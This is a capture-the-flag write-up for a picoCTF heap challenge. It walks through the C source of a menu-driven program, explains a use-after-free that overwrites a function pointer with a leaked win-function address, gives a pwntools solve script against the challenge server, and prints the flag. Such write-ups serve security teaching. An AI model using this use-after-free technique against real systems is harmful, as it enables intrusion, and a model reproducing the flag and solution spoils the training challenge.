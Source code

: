 > Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 6312

## Find the vulnerability

We see that this is basically almost a CRUD (Create, Read, Update, Delete) menu.

```c
void printMenu(){
 	puts("Welcome to my stream! ^W^");
 	puts("==========================");
 	puts("(S)ubscribe to my channel");
 	puts("(I)nquire about account deletion");
 	puts("(M)ake an Twixer account");
 	puts("(P)ay for premium membership");
	puts("(l)eave a message(with or without logging in)");
	puts("(e)xit");
}
```

We see that we have the option to delete our account (I), create an account(M), create a message (M).

We see that in (S), the program will leak the address of `hahaexploitgobrrr`, the win function.

```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}
...
void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

P doesn't really do anything but print a string.

```c
void p(){
  	puts("Membership pending... (There's also a super-subscription you can also get for twice the price!)");
}
```

Let's try to find the vulnerability. 

Within case 'M',  we see a reference to a getsline() function and a call to malloc:

```c
case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
...
char * getsline(void) {
	getchar();
	char * line = malloc(100), * linep = line;
	size_t lenmax = 100, len = lenmax;
	int c;
	if(line == NULL)
		return NULL;
	for(;;) {
		c = fgetc(stdin);
		if(c == EOF)
			break;
		if(--len == 0) {
			len = lenmax;
			char * linen = realloc(linep, lenmax *= 2);

			if(linen == NULL) {
				free(linep);
				return NULL;
			}
			line = linen + (line - linep);
			linep = linen;
		}

		if((*line++ = c) == '\n')
			break;
	}
	*line = '\0';
	return linep;
}
```

Ok, so we have a call to malloc, and a call to free in the I option, when we try to inquire about acount deletion:

```c
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```

So what now? Well, remember the fact that we can leave a message? We also have a call to malloc

```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```

Why is this important you may ask? Well, two pointers call malloc, and if open pointer is free'd without being reallocated then if we allocate data using malloc, that free'd pointer will reference that newly allocated data! 

Why is this bad? 

Well, when we do the menu options, we actually use the "user" as an address stored, and whatToDo will call it. And remember, both user and leave a message are both using malloc, with user being able to be freed.

```c
void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}
```
and we can just call `P` since it doesn't do anything at all!

```c
case 'P':
	user->whatToDo = (void*)p;
```

So here's the steps

1. Get the win address
2. Allocate 4 bytes (represents the 32-bit address we will use to overwrite the data) to user
3. Free user
4. Write the win address to write line
5. Call an option so the code will call the pointer which will be the win address

Here's the solve script:

```python
from pwn import *
from pwn import p32

elf = ELF('./vuln')

if args.REMOTE:
    r = remote('mercury.picoctf.net', 6312)
else:
    r = process(elf.path)

#define variables

def get_win_addr():
    r.sendline(b"S")
    r.recvuntil(b"leak...")
    win_addr = int(r.recvuntil("\n").rstrip(), 16)
    log.info("Got win addr: " + hex(win_addr))
    return win_addr

def create_account():
    r.sendline(b"M")
    payload = b'A'*4
    r.sendline(payload)

def delete_account():
    r.sendline(b"I")
    r.sendline(b"Y")

def leave_message(win_addr):
    r.sendline(b"l")
    r.recvuntil(b"anyways:")
    # Debug print
    log.info(f"Sending win addr: {hex(win_addr)}")
    r.send(p32(win_addr))
    log.info("Sent message")

#first get the win address
win = get_win_addr()
#allocate data to the account
create_account()
#free
delete_account()
#leave_message -> write in the address that will also be used by user pointer in malloc even if free'd
leave_message(win)
#something??
r.sendline(b"P")
r.interactive()
```
- the flag might be a little up at the top or in the middle of the menu

```picoCTF{d0ubl3_j30p4rdy_ad77070e}```
